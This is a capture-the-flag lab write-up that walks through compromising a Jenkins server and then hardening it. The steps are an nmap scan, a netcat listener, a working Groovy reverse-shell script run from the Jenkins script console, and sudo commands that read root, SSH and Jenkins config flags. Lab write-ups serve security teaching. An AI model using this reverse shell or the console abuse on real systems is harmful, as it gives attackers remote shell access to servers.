








# Sleighing Threats, One Layer at a Time

## Solution
- Hit "Start Machine" and open the Split Screen View or connect through RDP.
- What is the default port for Jenkins?
```bash
sudo nmap -T4 10.10.99.188 
```



- What is the password of the user tracy?
Groovy script can be run in Jenkins under the link http://10.10.99.188:8080/manage/script. A Groovy reverse shell can be run.
Start the listener on the attacker machine.
```bash
nc -lvnp 9999
```
Run the Groovy script in the console.
```bash
String host="attacking machine IP here";
int port=9999;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```



Browse the /opt/scripts folder to find interesting files.



- What's the root flag?
Now we can ssh as tracy user into the target machine.
```bash
ssh tracy@IP
```
Notice tracy user can run all the commands as sudo!
It can be verified running:
```bash
sudo -l
```



Run the following command to get the root flag:
```bash
sudo cat /root/flag.txt
```



- What is the error message when you login as tracy again and try sudo -l after its removal from the sudoers group?
Remove tracy user from the sudoers.
```bash
sudo deluser tracy sudo
```
SSH again into the server as tracy and run:
```bash
sudo -l
```



- What's the SSH flag?
```bash
cat /etc/ssh/sshd_config
```



- What's the Jenkins flag?
```bash
cat /var/lib/jenkins/config.xml.bak
```


